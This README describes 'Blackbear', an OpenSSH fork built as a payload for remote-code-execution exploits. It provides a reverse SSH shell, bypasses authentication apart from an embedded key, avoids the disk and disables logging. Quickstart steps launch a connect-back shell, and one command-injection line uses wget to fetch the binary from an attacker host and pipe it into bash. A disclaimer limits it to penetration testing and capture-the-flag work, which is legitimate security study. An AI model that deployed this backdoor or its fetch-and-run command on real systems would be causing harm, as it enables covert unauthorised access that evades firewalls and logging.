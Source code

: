 # Blackbear: a fork of openssh-portable for penetration testing purposes.

Disclamer: Do not use in production or on any public facing server. Use only
in penetration testing context, while participating in capture the flag 
competitions or otherwise studying computer security. I've made modifications
which severly degrade the security of the server. 

## Blackbear project goals:

The blackbear server is to be used as main payload for RCE exploits.  

Main goal is to have reliable interactive shell access (must be able to run 
top, sudo, screen, vi, etc) as opposed to crafted reverse shells 
meterpreter which allow basic commands but fail at interactive ones.

Secondary goal is to implement reverse ssh shell operation.  This means 
than the server must be able to establish a tcp connection in addition to
its ability to listen for incoming connections and vice versa.  Once the
server can connect to the client, the ssh protocol happens as usual so
the client which received the connection gets a shell on the server.

As always, reverse shell operation is meant to bypass firewall with spotty
(if any) egress filtering.

More details in slides.pdf

Additionnal goals:

- be able to run under any user account, must not require root or elevated 
privileges.                                                                
- server must not touch the disk, host keys shall be generated on the fly 
(insecure), authorized keys and configuration must be encoded within the 
binary, no logging.  Only /dev/urandom and other required device files shall 
be used.
- must bypass any and all authentication mecanisms except public key
authentication.  Than is to be able to gain access even if
~/.ssh/authorized_keys does not exists, the account is disabled, the 
account has an invalid shell, etc.

## Quickstart

1. Install zlib and OpenSSL libraries and development files for your distribution

2. Run autoreconf to generate the configure scrip

3. The usual ./configure then make

4. Run the ssh client in listening mode

  e.g: listen on all interfaces, using port 8022
  ./ssh -i id_blackbearkey -r 0.0.0.0 -p 8022

5. Upload sshd binary on the target and run

  e.g: connect back to you on port 8022
  ./sshd -s LHOST -p 8022

You shall receive a shell with the priviledges of the account running sshd

## Easyexecute

patch the binary to make it a bash script that will chmod +x itself
easyexecute.py sshd
then sshd can be piped into bash, see example below

Basic example for Damn Vulnerable Web Application (command injection):

`export ARGS="-s 192.168.122.1 -p 8022"; cd /tmp; wget -r http://192.168.122.1:8080/sshd -O sshd && cat sshd | bash`

INSTALL has more detailed compilation instructions.


